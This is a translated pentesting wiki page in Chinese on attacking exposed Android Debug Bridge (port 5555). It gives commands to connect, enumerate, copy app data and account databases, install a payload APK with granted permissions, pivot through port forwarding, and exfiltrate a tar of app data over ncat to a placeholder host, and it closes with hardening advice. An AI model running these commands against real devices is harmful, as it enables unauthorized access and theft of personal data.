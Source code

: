 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## 基本信息

来自 [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) 是一个命令行工具，用于与基于 Android 的设备和模拟器进行通信。典型操作包括安装软件包、调试和获取设备上的交互式 Unix shell。

- 历史默认 TCP 端口：5555（经典的 "adb tcpip" 模式）。
- 现代无线调试（Android 11+）使用 TLS 配对和 mDNS 服务发现。连接端口是动态的，通过 mDNS 发现；它可能不是 5555。配对通过 adb pair host:port 然后 adb connect 完成。有关攻击性影响的说明，请参见下面的注释。

示例 nmap 指纹：
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## 连接

如果您发现 ADB 被暴露并且可以访问，请尝试快速连接和枚举：
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- 如果设备强制执行 ADB 认证 (ro.adb.secure=1)，您需要预先授权 (USB RSA 认证) 或使用 Android 11+ 无线调试配对 (这需要在设备上显示的一次性代码)。
- 一些厂商镜像、工程/用户调试版本、模拟器、电视、机顶盒和开发工具包在没有认证或以 root 身份运行 adbd 的情况下暴露 adbd。在这些情况下，您通常会直接进入 shell 或 root shell。

有关一般 ADB 命令的参考，请参见：

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## 快速后渗透

一旦您获得 shell，验证权限和 SELinux 上下文：
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### 枚举和捕获数据

- 列出第三方应用和路径：
```bash
pm list packages -3
pm path <pkg>
```
- 如果你有 root 权限（adb root 或 su 有效），你可以直接访问 /data。如果没有，建议对可调试的应用使用 run-as：
```bash
# 无需 root，针对可调试应用
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# 有 root 权限
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- 有用的系统文档（需要 root）：
- /data/system/users/0/accounts.db 和相关的 AccountManager 数据
- /data/misc/wifi/（旧版本上的网络配置/密钥）
- /data/data/<pkg> 下的应用特定 SQLite 数据库和 shared_prefs

你可以用这个来检索敏感信息（例如，应用秘密）。关于 Chrome 数据考虑的说明，请参见 [这里](https://github.com/carlospolop/hacktricks/issues/274) 提到的问题。

### 代码执行和有效载荷传递

- 安装并自动授予运行时权限：
```bash
adb install -r -g payload.apk         # -g 授予清单中声明的所有运行时权限
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- 直接启动活动/服务/广播：
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### 端口转发和跳板

即使没有 root，adb 也可以将本地端口转发到设备端口，反之亦然。这对于访问绑定在设备上的本地服务或将攻击者服务暴露给设备非常有用。

- 转发主机->设备（从主机访问设备本地服务）：
```bash
adb forward tcp:2222 tcp:22       # 如果设备运行 SSH（例如，Termux/Dropbear）
adb forward tcp:8081 tcp:8080     # 暴露应用的本地调试服务器
```
- 反向设备->主机（让设备访问主机上的服务）：
```bash
adb reverse tcp:1080 tcp:1080     # 设备应用现在可以将主机:1080 视为 127.0.0.1:1080
```
- 通过套接字进行文件外泄（不写入 sdcard）：
```bash
# 在主机上：监听
ncat -lvp 9000 > dump.tar
# 在设备上：将目录作为 tar 发送（根据需要使用 root 或 run-as）
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## 无线调试（Android 11+）

现代 Android 实现了带有设备端配对和 mDNS 发现的 TLS 保护无线调试：
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
笔记
- 端口是动态的；不要假设为 5555。mDNS 服务名称如下：
- _adb-tls-pairing._tcp (配对)
- _adb-tls-connect._tcp (已配对连接)
- _adb._tcp (传统/明文)
- 如果 mDNS 被过滤，经典的 USB 辅助启用在某些版本上仍然有效：`adb tcpip 5555` 然后 `adb connect <ip>:5555`（直到重启）。

攻击性影响：如果您可以与设备 UI 交互（例如，物理访问或移动 MDM 配置错误）以启用无线调试并查看配对代码，则可以在没有电缆的情况下建立一个长期配对的 ADB 通道。一些 OEM 在工程/开发镜像中暴露 ADB 通过 TCP 而无需配对——始终检查。

## 加固 / 检测

防御者应假设任何可达的 adbd (TCP) 都是关键风险。

- 在不需要时禁用 ADB 和无线调试。在开发者选项中撤销 USB 调试授权。
- 确保网络策略阻止不受信任段的入站 TCP/5555 和基于 mDNS 的 ADB 发现。
- 在您控制的设备上：
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # 禁用 TCP 监听（或使用：adb usb）
stop adbd; start adbd             # 重启守护进程
```
- 监控公司网络上的 mDNS 记录 `_adb._tcp`、`_adb-tls-connect._tcp`、`_adb-tls-pairing._tcp`，并对意外的 5555 监听器发出警报。
- 清点不安全的构建：`getprop ro.debuggable`、`ro.build.type` 和 `ro.adb.secure`。

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## 参考

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
